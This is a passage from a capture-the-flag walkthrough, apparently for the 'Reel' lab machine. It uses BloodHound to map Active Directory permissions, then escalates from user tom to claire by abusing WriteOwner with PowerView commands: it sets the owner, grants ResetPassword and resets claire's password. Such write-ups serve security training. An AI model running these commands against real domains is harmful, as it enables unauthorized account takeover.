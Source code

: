 #### Analysis

With data loaded, the default view is all the paths to Domain Admin. As tom
said in his note, there’s no paths from user to Domain Admin, so it’s just
empty.

I’ll start with tom. After putting tom in as the user, I’ll look at “First
Degree Object Control” to see what object tom directly controls, and then
“Transitive Object Control” to see where that could go if iterated out.
Sometimes if the graph is hard to read, the refresh button will redraw it
better:

![](https://0xdfimages.gitlab.io/img/reel-bloodhound.gif)

This analysis shows the same path to Backup_Admins through claire.

## Privesc: tom -> claire

To move to the claire account, I’ll use the WriteOwner permission along with
the functionality of PowerView to take the following steps:

  * Become owner of claire’s ACL
  * Get permissions on that ACL
  * Use those permissions to change the password

For each of these steps, I’ll need PowerView, and PowerShell. Luckily, there’s
a copy in `C:\Users\tom\Desktop\AD Audit\BloodHound`, so I will start up
PowerShell and import it:

    
    
    tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>powershell
    Windows PowerShell
    Copyright (C) 2014 Microsoft Corporation. All rights reserved.
    
    PS C:\Users\tom\Desktop\AD Audit\BloodHound> . .\PowerView.ps1
    

Next, I’ll set tom as the owner of claire’s ACL:

    
    
    PS C:\users\tom\desktop\AD Audit\BloodHound> Set-DomainObjectOwner -identity claire -OwnerIdentity tom
    

Next, I’ll give tom permissions to change passwords on that ACL:

    
    
    PS C:\users\tom\desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
    

Now, I’ll create a credential, and then set claire’s password:

    
    
    PS C:\users\tom\desktop\AD Audit\BloodHound> $cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
    PS C:\users\tom\desktop\AD Audit\BloodHound> Set-DomainUserPassword -identity claire -accountpassword $cred
    